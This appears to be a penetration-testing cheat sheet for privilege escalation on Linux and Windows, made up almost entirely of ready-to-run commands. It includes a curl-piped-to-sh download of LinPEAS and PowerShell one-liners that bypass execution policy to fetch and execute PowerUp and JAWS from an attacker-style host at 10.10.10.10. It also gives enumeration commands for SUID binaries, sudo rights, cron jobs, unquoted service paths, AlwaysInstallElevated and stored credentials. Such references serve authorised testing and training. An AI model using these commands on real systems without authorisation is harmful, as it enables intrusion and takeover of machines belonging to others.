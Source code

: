 #### Enumeration Scripts
```bash
# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh

# Linux Smart Enumeration
./lse.sh -l 1 -i
```

#### Common Vectors
```bash
# SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Writable files
find / -writable -type f 2>/dev/null

# Sudo rights
sudo -l

# Cron jobs
cat /etc/crontab
ls -la /etc/cron*

# Kernel exploits
uname -a
```

### Windows Privilege Escalation

#### Enumeration Scripts
```powershell
# PowerUp
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1'); Invoke-AllChecks"

# JAWS
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/jaws-enum.ps1')"

# WinPEAS
.\winPEASany.exe
```

#### Common Vectors
```powershell
# Service Misconfigurations
sc qc vulnerable-service
icacls "C:\Program Files\Vulnerable Service\service.exe"

# Unquoted Service Paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Stored Credentials
cmdkey /list
```
